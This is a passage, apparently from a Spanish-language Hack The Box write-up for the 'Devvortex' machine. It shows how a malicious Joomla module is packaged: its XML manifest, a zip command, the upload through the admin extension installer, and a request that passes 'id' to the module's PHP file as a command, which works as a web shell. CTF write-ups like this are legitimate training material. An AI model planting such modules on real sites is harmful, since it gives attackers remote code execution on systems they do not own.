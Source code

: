 🗃️ `mod_sheshe.xml` (modificamos unas líneas y borramos otras, cambios pequeños)

```xml
<?xml version="1.0" encoding="utf-8"?>
<extension type="module" version="3.1.0" client="site" method="upgrade">
    <name>System - Entradas Cine</name>
    <author>Carlitos</author>
    <version>1.0.0</version>
    <description>Bueno, estas son tus entradas para el cine, modula.</description>
    <files>
        <filename>mod_sheshe.xml</filename>
        <filename module="mod_sheshe">mod_sheshe.php</filename>
        <filename>tmpl/default.php</filename>
    </files>
    <config>
    </config>
</extension>
```

Y listo, como dijimos en el writeup, lo siguiente es comprimir el objeto e instalarlo en **Joomla**:

```bash
➧ ls    
mod_sheshe.php  mod_sheshe.xml  tmpl
```

```bash
zip -r moduleando.zip .
```

Y subimos esta vainaaaaaaaa!!

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devvortex/htb577_page80dev_administrator_installExtensions_pluginSheshe_installed.png" style="width: 100%;"/>

Epale, ahora, la prueba de la verdad:

```html
http://dev.devvortex.htb/modules/mod_sheshe/mod_sheshe.php?xmd=id
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devvortex/htb577_page80dev_modules_modSheshe_RCE_id.png" style="width: 100%;"/>

Lindo lindo. Bien sencillo, pero quería probar :P

...

Máquina bonita, sencilla claramente, pero disfrutable y divertida, además aprendimos tanto a instalar plugins en **Joomla** (incluso maliciosos) como a validar crashes en el sistema (guiño).

Nos volveremos a leer, a seguir dándole duro y claramente a seguir rompiendo de todoooooooo!! Abrazos :*